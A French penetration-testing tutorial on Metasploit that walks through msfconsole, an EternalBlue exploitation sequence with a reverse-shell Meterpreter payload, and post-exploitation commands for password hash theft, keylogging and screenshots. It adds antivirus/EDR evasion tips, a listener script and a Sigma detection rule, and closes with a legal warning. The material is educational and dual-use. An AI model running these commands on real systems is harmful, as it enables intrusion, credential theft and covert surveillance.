


# Metasploit — L'Armurerie Complète

<div
  class="omny-meta"
  data-level="🟡 Intermédiaire → 🔴 Avancé"
  data-version="6.4+"
  data-time="~60 minutes">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — Le Fusil de Précision Modulaire"
    Avant Metasploit, un hacker devait coder son propre exploit (en C ou en Perl), puis coder son propre "Payload" (la charge explosive), et prier pour que les deux s'emboîtent.
    **Metasploit** est un fusil de précision modulaire. Vous choisissez le canon (l'Exploit), vous choisissez la balle (le Payload : Windows, Linux, Android), vous réglez la lunette (l'adresse IP cible), et vous appuyez sur la détente. Si vous changez de cible, vous gardez le même fusil et vous changez juste de munitions.

Racheté et maintenu par **Rapid7**, le Metasploit Framework (MSF) a révolutionné la sécurité informatique. Écrit en Ruby, c'est l'outil central de l'étape d'exploitation. Il regroupe plus de 4 000 modules d'attaque et des centaines de payloads prêts à l'emploi. Que vous cherchiez à pirater un vieux Windows XP (MS08-067) ou le dernier serveur Web Apache vulnérable, l'exploit a 99% de chances d'être déjà codé et disponible dans Metasploit.

<br>

---

## 🏗️ Architecture & Mécanismes Internes

### 1. La Taxonomie des Modules
Dans Metasploit, tout est un *Module*. Il est vital de comprendre la différence entre chaque catégorie.



### 2. Le Mécanisme "Stager" vs "Stage" (Le Payload Meterpreter)
La plus grande invention de Metasploit est le **Meterpreter** (Metasploit Interpreter).
Plutôt que d'envoyer un virus de 5 Mo (qui serait bloqué par le réseau ou trop lourd pour la faille de Buffer Overflow), Metasploit fonctionne en deux temps.



<br>

---

## 🚀 Workflow Opérationnel & Lignes de Commande (msfconsole)

Metasploit s'utilise via son interface terminal interactive : `msfconsole`.

### 1. Démarrage et Base de Données
La base de données (PostgreSQL) doit être lancée pour que les recherches d'exploits soient instantanées et pour stocker les résultats.
```bash title="Initialisation de la base"
sudo systemctl start postgresql
sudo msfdb init
msfconsole -q
```
*(Le `-q` pour Quiet empêche l'affichage du gros logo ASCII au démarrage).*

Une fois dans la console `msf6 >`, on cherche notre cible :
```bash title="Recherche d'un exploit"
# Cherche les exploits Windows liés à SMB
search type:exploit platform:windows smb eternalblue
```

### 2. Le Workflow de tir (Les 5 étapes)
L'exploitation dans Metasploit suit **toujours** cette procédure rigoureuse.
```bash
# 1. Sélectionner le module
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 2. Afficher les paramètres requis (Yes dans la colonne Required)
msf6 exploit(ms17_010) > show options

# 3. Configurer la cible (RHOSTS = Remote Hosts)
msf6 exploit(ms17_010) > set RHOSTS 10.10.10.40

# 4. Configurer le Payload (Ce qu'on veut faire une fois rentré)
msf6 exploit(ms17_010) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(ms17_010) > set LHOST tun0  # (LHOST: Notre IP VPN d'attaquant)

# 5. Feu ! (exploit ou run)
msf6 exploit(ms17_010) > exploit
```
Si l'exploit réussit, le prompt change et devient `meterpreter >`. Vous êtes à l'intérieur de la machine cible.

### 3. La Post-Exploitation (Meterpreter)
Meterpreter possède des centaines de commandes intégrées pour hacker la machine, sans déclencher les alertes classiques. Contrairement à un terminal basique (`cmd.exe`), les commandes Meterpreter sont envoyées chiffrées via TLS.

```bash title="Exemples de commandes Meterpreter"
getuid          # Voir qui on est (ex: NT AUTHORITY\SYSTEM)
sysinfo         # Informations sur l'OS et l'architecture
hashdump        # Voler la base de mots de passe locale Windows (SAM)
screenshot      # Prendre une capture d'écran silencieuse du bureau
keyscan_start   # Démarrer un keylogger (enregistreur de frappe)
shell           # Tomber dans un invite de commande classique (cmd.exe ou bash)
background      # Mettre la session en tâche de fond pour utiliser un autre module
```

<br>

---

## 🥷 Furtivité Avancée & Contournement d'Antivirus

Envoyer un payload standard Metasploit sur un Windows 10/11 moderne est un suicide tactique. Windows Defender le supprimera avant même que vous ne tapiez `exploit`. Comment faire ?

### 1. La fausse bonne idée : Les Encoders (Shikata_Ga_Nai)
Dans les années 2010, on utilisait l'encodeur polymorphique `x86/shikata_ga_nai` pour masquer le payload.
**Aujourd'hui, c'est l'inverse.** Les antivirus (AV) connaissent tellement bien la signature de cet encodeur que le simple fait de l'utiliser garantit une détection à 100%. L'évasion ne se fait plus via des encodeurs.

### 2. La Migration de Processus (Process Migration)
Par défaut, si vous exploitez un serveur Web IIS, Meterpreter s'exécute dans la mémoire du processus `w3wp.exe`. Si l'administrateur redémarre le serveur Web, vous perdez votre accès. Pire, un processus Web faisant des requêtes systèmes étranges (comme lire la base SAM) alertera l'EDR.
Il faut *migrer*.
```bash title="Migration Meterpreter"
meterpreter > ps              # Lister les processus
meterpreter > migrate 1204    # ID du processus explorer.exe (Très discret)
```
*Le payload copie sa mémoire dans `explorer.exe` et quitte le serveur Web. L'EDR voit désormais l'utilisateur légitime faire des actions.*

### 3. Le Chiffrement des Communications (Paranoia Mode)
Un NIDS (Network Intrusion Detection System) comme Snort détecte très bien la poignée de main initiale d'un Stager Metasploit classique.
Vous pouvez forcer Metasploit à générer un payload qui chiffre la vérification du certificat (SSL/TLS Certificate Pinning).
```bash title="Payload Sécurisé"
set PAYLOAD windows/meterpreter_reverse_https
set EnableStageEncoding true
set StageEncoder x64/zutto_dekiru
```

<br>

---

## 🚨 Approche Purple Team : Détection (Blue Team)

!!! warning "Vue Défensive (Blue Team / SOC)"
    Metasploit étant public, toutes les Blue Teams du monde l'étudient. Une exploitation Metasploit standard est extrêmement bruyante pour un œil exercé.

### 1. La signature réseau du Stager (Port 4444)
L'erreur de débutant (et la plus détectée par les SOC) est de laisser le paramètre `LPORT` par défaut. Par défaut, Metasploit écoute sur le port **4444**.
Une règle SIEM ultra-basique détectera instantanément une connexion sortante d'un serveur Web vers une IP externe sur le port 4444.
**Remède Red Team** : Toujours faire écouter Metasploit sur le port `443` (HTTPS) ou `53` (DNS), qui sont des ports de sortie légitimes.

### 2. Détection par Règle Sigma (Process Injection)
Lorsqu'un exploit Metasploit réussit, il utilise souvent PowerShell ou `cmd.exe` de manière inhabituelle pour télécharger le payload. Voici une logique de détection Sigma pour ce comportement typique (Macro MS Office malveillante) :

```yaml title="Règle Sigma - Détection d'Exécution Anormale"
title: Lancement suspect de PowerShell depuis Word
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        ParentImage|endswith: '\WINWORD.EXE'
        Image|endswith: '\powershell.exe'
    condition: selection
description: |
    Détecte Microsoft Word (WINWORD) lançant un processus PowerShell,
    comportement très fréquent lors du lancement d'un payload Metasploit.
```

### 3. Réponse d'un EDR moderne (CrowdStrike, SentinelOne)
Un EDR ne regarde plus les signatures, il regarde le comportement. Si le processus légitime `spoolsv.exe` (Gestionnaire d'impression) essaie de lire le fichier de mots de passe de Windows (`LSASS.exe`), l'EDR tuera instantanément le processus, même si le code de Metasploit était obfusqué.

<br>

---

## 🧪 Laboratoire Pratique (Playground Inter-Outils)

**Objectif :** De Nmap à l'Exploitation dans Metasploit.

1. **Importation des Cibles**
   Au lieu de configurer l'IP manuellement, utilisez le fichier XML généré par votre scan Nmap précédent.
   ```bash
   msf6 > db_import /root/nmap_initial.xml
   msf6 > hosts      # Affiche toutes les IPs découvertes
   msf6 > services   # Affiche tous les ports ouverts
   ```

2. **Le Workspace**
   Ne mélangez pas vos clients ! Utilisez les espaces de travail de Metasploit.
   ```bash
   msf6 > workspace -a Client_Alpha
   ```

3. **L'Automatisation via Resource Script**
   Vous pouvez automatiser Metasploit avec des scripts `.rc`. Créez un fichier `auto_listener.rc` :
   ```bash
   use exploit/multi/handler
   set PAYLOAD windows/x64/meterpreter/reverse_https
   set LHOST 10.10.14.5
   set LPORT 443
   set ExitOnSession false
   exploit -j
   ```
   Puis lancez Metasploit : `msfconsole -r auto_listener.rc` pour avoir un serveur d'écoute persistant.

<br>

---

## Conclusion & Légalité

!!! danger "Avertissement Légal"
    Utiliser un module `exploit` de Metasploit contre un système pour lequel vous n'avez pas de mandat d'audit explicite constitue un **Maintien Frauduleux dans un STAD** (Loi Godfrain), passible de peines criminelles lourdes.

!!! quote "Ce qu'il faut retenir"
    Metasploit est le squelette de l'industrie du test d'intrusion. Savoir manipuler la console `msfconsole`, configurer le couple `LHOST/RHOST` et utiliser le `Meterpreter` est une compétence non négociable. Même si l'évasion des défenses modernes nécessite aujourd'hui des outils sur-mesure ou du développement "Maison" (C#/Nim/Rust), Metasploit reste l'épine dorsale pour orchestrer une campagne offensive de l'accès initial jusqu'à l'exfiltration.

> La console interactive Metasploit est géniale, mais que se passe-t-il si vous avez simplement besoin de fabriquer le fichier virus (`.exe` ou `.apk`) pour l'envoyer à la victime via une clé USB ou par email (sans utiliser `msfconsole`) ? C'est le rôle de son usine de génération d'armes autonome : **[Msfvenom →](./msfvenom.md)**.

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    L'exploitation n'est que la concrétisation d'une phase de reconnaissance réussie. L'utilisation de frameworks d'exploitation doit toujours être maîtrisée pour éviter les dommages collatéraux sur les systèmes en production.

> [Retourner à l'index des outils →](../../index.md)
